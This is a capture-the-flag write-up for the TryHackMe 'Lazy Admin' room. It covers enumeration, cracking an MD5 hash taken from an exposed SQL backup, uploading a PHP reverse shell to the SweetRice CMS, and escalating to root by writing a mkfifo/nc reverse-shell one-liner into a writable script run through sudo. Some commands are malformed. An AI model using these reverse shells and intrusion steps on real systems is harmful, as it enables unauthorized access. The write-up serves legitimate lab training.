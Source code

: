 #Lazy Admin

https://tryhackme.com/room/lazyadmin

##Lazy Admin 
1. user flag
	echo <machine-ip> lazyadmin.com >> /etc/hosts

##Enumeration
nmap -sC -sV -oN nmap.txt lazyadmin.com
```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 04:08 EDT
Nmap scan report for lazyadmin.com (10.10.240.121)
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.82 seconds
```
```bash
firefox lazyadmin.com
```
We will run gobuster to enumerate the website
```bash
gobuster dir -u http://lazyadmin.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 35
```
```
/content
```
```bash
firefox lazyadmin.com/content
```
```lazyadmin.com/content
Welcome to SweetRice - Thank your for install SweetRice as your website management system.
This site is building now , please come late.

If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website.

More help at Tip for Basic CMS SweetRice installed
```
```bash
gobuster dir -u http://lazyadmin.com/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 35
```
```
/inc
```
```bash
firefox lazyadmin.com/content/inc
```
```
we will see a folder named mysql_backup
navigate to mysql_backup and download the file
open the file using any text editor i use vim
```
```downloaded_sql_file
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\
"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:
\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"
<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p>
```
```creds
manager : 42f749ade7f9e195bf475f37a44cafcb(MD5)
```
```bash
echo 42f749ade7f9e195bf475f37a44cafcb > hash.txt
john --format=RAW-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```creds
manager : Password123
```
```bash
firefox lazyadmin.com/content/as
```
and enter the creds to login
and navigate to media center
and upload the reverse shell if you dont have you can download it from the link below
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
after changing the ip address and renaming it to revshell.php5
we see the file is uploaded
open terminal and execute this
```bash
nc -lnvp 4444
``` 
and we got a shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
enter these two commands to spawn a tty terminal
move to /home/itguy

```
we got the user flag
```

2. root flag

##Privilege Escalation
```mysql.backup
rice : randompass
```
```back.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
this script executes another script /etc/copy.sh

```bash 
cat /etc/copy.sh
```
```contents_of_copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
Luckily we can write into copy.sh 
now all we need to do is insert a reverse shell
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your-ip> 5554" >/tmp/f > copy.sh
```
open a new terminal and run this command
```bash
nc -lnvp 5554
```
then go victim shell and execute this command
```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```
```
we got the user flag
```
